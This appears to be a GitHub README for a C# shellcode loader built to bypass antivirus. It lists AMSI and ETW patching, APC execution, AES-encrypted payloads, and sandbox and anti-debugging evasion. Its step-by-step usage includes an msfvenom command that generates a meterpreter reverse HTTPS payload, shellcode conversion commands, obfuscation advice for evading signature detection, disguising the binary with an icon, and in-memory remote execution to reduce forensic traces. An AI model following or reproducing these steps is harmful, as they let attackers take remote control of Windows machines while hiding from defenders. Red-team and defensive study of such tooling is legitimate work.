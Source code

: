 ### C# ShellCode Loader 3
--------------------------------------
Shellcode loader (written in C#) that implements several antivirus bypass and defense evasion techniques.

#### FEATURES
  - Shellcode execution using Asynchronous Procedure Call (APC) and the NtTestAlert function
  - AMSI bypass (patching technique)
  - ETW bypass in user-mode (patching 'EtwEventWrite')
  - Shellcode encryption (AES-256 / CBC mode)
  - Shellcode handling => the encrypted shellcode is Base64-encoded and loaded from a local file
  - Dynamic API resolution (via GetProcAddress and LoadLibrary)
  - Memory protection change after copy (PAGE_READWRITE changed to PAGE_EXECUTE_READ)
  - Basic sandbox detection & evasion
    - Terminates execution if the host Windows machine is not joined to a specific domain
    - Terminates execution if a debugger is detected (basic anti-debugging check)
  - Supports shellcodes generated by multiple Command-and-Control (C2) frameworks such as Metasploit and Havoc
    
#### USAGE
  - STEP 1. Generate a Csharp shellcode with your favorite C2 framework or generate a "raw" shellcode and then convert it to the Csharp format.
```
Examples
--------
[*] METASPLOIT C2 Framework 
    $ msfvenom -p windows/x64/meterpreter_reverse_https EXITFUNC=thread HandlerSSLCert=/path/cert.pem LHOST=IP LPORT=port -a x64 -f csharp -o csharp_stageless-shellcode

[*] HAVOC C2 Framework 
    Generate a new HAVOC payload with the format "Windows Shellcode" (Arch: x64; Indirect Syscall enabled; no sleep obfuscation; amsi/etw patching technique: hardware breakpoints)
    Then convert the raw shellcode to the Csharp format:
    > Manual option:
      @Kali:/$ xxd -p shellcode | tr -d '\n' | sed 's/.\{2\}/0x&,/g' > shellcode2
      @Kali:/$ sed '$ s/.$//' shellcode2 > shellcode3
   > Or use a tool like "SUPERNOVA" to convert it (SuperNova is a shellcode encryptor & obfuscator tool - https://github.com/nickvourd/Supernova)
``` 

  - STEP 2.  Use the tool "Shellcode-Crypter-and-Encoder.exe" to encrypt your shellcode using AES-256, then encode the encrypted output in Base64 format and save the result to a file.
 ```
C:\Temp> Shellcode-Crypter-and-Encoder.exe
[*] Usage:
    > Shellcode-Crypter-and-Encoder.exe <path_to_C#_shellcode_file> <AES key>
[*] Example:
    > Shellcode-Crypter-and-Encoder.exe Csharp_shellcode.txt SuperAesKey > Encrypted_and_bas64encoded_shellcode.txt
```
  - STEP 3. OPSEC requirements - Manually obfuscate the C# shellcode loader file
  	- Rename the namespace, classes, methods, and variables.
  	- Remove all existing comments and insert fake ones.
    - Remove all console output messages (i.e., Console.WriteLine("text")).
  	- Modify the code structure or logic slightly if needed to evade signature-based detection.
    - Etc.

  - STEP 4. Compile the C# shellcode loader  
    <i/> Note: Adding an icon file and assembly attributes can make your executable appear more legitimate. </i>
```  
[*] Example with "Developer PowerShell for VS 2022" - Microsoft (R) Visual C# Compiler
    > csc /t:exe /out:C:\path\Loader.exe C:\path\CsharpShellCodeLoader.cs AssemblyInfo.cs -nowarn:1691,618  -win32icon:.\icon.ico
``` 
  - STEP 5. Optional Actions
  	- You may compress and obfuscate the shellcode loader executable using a packer such as ConfuserEx. However, this step is not strictly necessary to bypass most AV solutions if you performed sufficient manual obfuscation in Step 3.
  	- Alternatively, you may choose to remotely download and execute the C# binary in memory using PowerShell and reflection-based code loading. This approach avoids writing the binary to disk, enhancing stealth and reducing forensic traces.
  - STEP 6. Execution
```
[*] Usage :
    > loader.exe <domain name> <C:\filepath\Encrypted_and_bas64encoded_shellcode.txt> <AES key>
[*] Example:
    > loader.exe lab.local C:\temp\Encrypted_and_bas64encoded_shellcode.txt SuperAesKey
[*] Note:
    > Argument 1 = The domain name of the target Windows machine. Used for sandbox detection/evasion by verifying domain membership.
    > Argument 2 = The file path to the AES-256 encrypted shellcode, which must be Base64-encoded (i.e., C:\path\file.txt or .\path\file.txt).
    > Argument 3 = The AES passkey used for encryption and decryption.
``` 
#### LICENSE
  - GNU General Public License v3.0

